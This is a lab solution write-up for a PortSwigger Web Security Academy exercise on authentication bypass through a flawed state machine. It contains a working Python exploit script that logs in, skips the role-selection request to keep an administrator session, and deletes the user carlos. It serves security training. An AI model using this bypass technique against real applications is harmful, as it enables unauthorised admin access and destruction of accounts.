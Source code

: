 # Lab: Authentication bypass via flawed state machine

Link to lab: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-flawed-state-machine

## Solution

```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

sess = requests.Session()

# Get login

response = requests.get('https://0adc004303abb000c075b8cb00f900ec.web-security-academy.net/login')

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']
session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

# Post login

cookies = {
    'session': session,
}

data = {
    'csrf': csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = requests.post(
    'https://0adc004303abb000c075b8cb00f900ec.web-security-academy.net/login',
    cookies=cookies,
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['set-Cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session,
}

# Skip GET /select-role keep that session


# Delete user carlos
response = requests.get(
    'https://0adc004303abb000c075b8cb00f900ec.web-security-academy.net/admin/delete?username=carlos',
    cookies=cookies,
    verify=False,
)
```
